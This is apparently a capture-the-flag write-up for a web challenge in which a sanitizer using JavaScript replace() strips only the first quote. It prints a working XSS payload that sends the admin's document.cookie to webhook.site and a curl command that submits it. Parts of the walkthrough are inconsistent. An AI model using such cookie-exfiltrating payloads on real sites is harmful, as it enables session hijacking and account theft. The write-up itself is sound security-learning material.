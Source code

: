 ### b01ler-ad

We are greeted with a page having lots of ads and a signup form
We are also given index.js file which is the source code for the web page

When we signup, we see post request being sent to `/review`, Lets take a look at the request

![alt text](req.png)

3 parameters : name, email and content

In source code we can see

```js
const content = req.body.content
  .replace("'", "")
  .replace('"', "")
  .replace("`", "");
const urlToVisit = CONFIG.APPURL + "/admin/view/?content=" + content;
```

We can see that the content parameter is being input sanitized
The problem is if we read about replace() in javascript, in only replaces the first instance that it encounters
If we want to replace all instances we need to use replaceAll()

So lets say we enter : ' ' payload'
The output will be 'payload' : the first single quote is being replace by space

req.body.content.replace("'", ''): This will replace the first single quote (') with an empty string. Since the input starts with two single quotes, only the first one will be replaced, leaving the second one untouched. The result will be 'payload'.
.replace('"', ''): This will not find any double quotes (") in the input, so the string remains unchanged: ' aaaaaaa'.
.replace("", ''): This will not find any backticks (` `) in the input, so the string remains unchanged: ' aaaaaaa'.

So we can see from source code, our data is being addes to the url and being viewed by the admin so we can send
an XSS to steal the admin cookie which most likely contains the flag

our payload will look like this

```html
<img src=x onerror=this.src=''https://webhook.site/?c='.concat(document.cookie)>
```

We can see that there are 2 quotes before our url and 1 after it because first quote will be replace by space

We can send a curl request like this

```sh
curl http://b01ler-ads.hammer.b01le.rs/review -X "POST" -d "name=aaaa&email=a%40b.com&content=<img src=x onerror=this.src=''https://webhook.site/?c='.concat(document.cookie)>"
```

We have to url encode @ in the email parameter while sending it. Send it and check our webhook

![alt text](flag.png)

and we get the **_flag : bctf{wow_you_can_get_a_free_ad_now!}_**
